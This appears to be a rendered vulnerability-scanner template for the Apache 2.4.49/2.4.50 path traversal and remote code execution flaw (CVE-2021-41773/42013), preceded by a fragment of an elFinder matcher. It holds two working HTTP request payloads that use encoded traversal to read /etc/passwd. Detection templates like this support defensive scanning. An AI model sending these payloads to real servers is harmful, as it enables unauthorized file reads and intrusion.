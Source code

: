 ### Matchers

**Type - word**

- words
  1. elfinder
  2. php/connector
- condition - and

**Type - status**

- status
  1. 200

---

# Apache 2.4.49/2.4.50 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49 and 2.4.50. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. In certain configurations, for instance if mod_cgi is enabled, this flaw can lead to remote code execution. This issue only affects Apache 2.4.49 and 2.4.50 and not earlier versions. Note - CVE-2021-42013 is due to an incomplete fix for the original vulnerability CVE-2021-41773.

- severity - critical
- tags - cve,cve2021,lfi,apache,rce,misconfig,traversal,kev

## Requests

### Step - 1

```
GET /icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 2

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```
